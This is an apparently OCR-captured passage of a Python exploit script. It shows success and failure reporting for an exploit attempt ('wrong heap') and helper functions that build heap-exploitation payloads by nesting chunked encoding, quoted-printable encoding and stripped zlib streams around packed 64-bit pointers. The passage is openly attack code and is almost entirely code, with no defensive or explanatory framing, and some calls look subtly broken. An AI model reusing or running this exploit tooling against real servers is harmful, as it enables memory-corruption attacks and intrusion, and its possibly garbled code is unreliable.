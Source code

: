 ~~~ python
       
        if not self.sleep:
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/] [i](probably)[/]")
        elif start + self.sleep <= time.time():
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/]")
        else:
            # Wrong heap, maybe? If the exploited suggested others, use them!
            msg_print("    [b white on black] EXPLOIT [/][b white on red] FAILURE [/]")
       
        msg_print()

def compress(data) -> bytes:
    """Returns data suitable for `zlib.inflate`.
    """
    # Remove 2-byte header and 4-byte checksum
    return zlib.compress(data, 9)[2:-4]


def b64(data: bytes, misalign=True) -> bytes:
    payload = base64.encode(data)
    if not misalign and payload.endswith("="):
        raise ValueError(f"Misaligned: {data}")
    return payload.encode()


def compressed_bucket(data: bytes) -> bytes:
    """Returns a chunk of size 0x8000 that, when dechunked, returns the data."""
    return chunked_chunk(data, 0x8000)

def qpe(data: bytes) -> bytes:
    """Emulates quoted-printable-encode.
    """
    return "".join(f"={x:02x}" for x in data).upper().encode()

def ptr_bucket(*ptrs, size=None) -> bytes:
    """Creates a 0x8000 chunk that reveals pointers after every step has been ran."""
    if size is not None:
        assert len(ptrs) * 8 == size
    bucket = b"".join(map(p64, ptrs))
    bucket = qpe(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = compressed_bucket(bucket)

    return bucket

def chunked_chunk(data: bytes, size: int = None) -> bytes:
    """Constructs a chunked representation of the given chunk. If size is given, the
    chunked representation has size `size`.
    For instance, `ABCD` with size 10 becomes: `0004\nABCD\n`.
    """
    # The caller does not care about the size: let's just add 8, which is more than
    # enough
    if size is None:
        size = len(data) + 8
    keep = len(data) + len(b"\n\n")
    size = f"{len(data):x}".rjust(size - keep, "0")
    return size.encode() + b"\n" + data + b"\n"

@dataclass
class Region:
~~~
